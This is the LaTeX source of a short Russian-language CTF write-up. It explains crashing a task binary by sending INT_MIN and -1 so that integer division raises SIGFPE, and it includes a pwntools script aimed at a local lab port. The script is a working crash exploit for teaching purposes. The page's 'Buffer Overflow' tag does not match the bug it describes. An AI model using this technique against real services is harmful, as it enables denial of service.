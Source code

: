 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}
\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}



\textbf{Теги:} C, Buffer Overflow, baby\vspace{\baselineskip}

\begin{tcolorbox}
<условие задачи>
\end{tcolorbox}
\end{document}
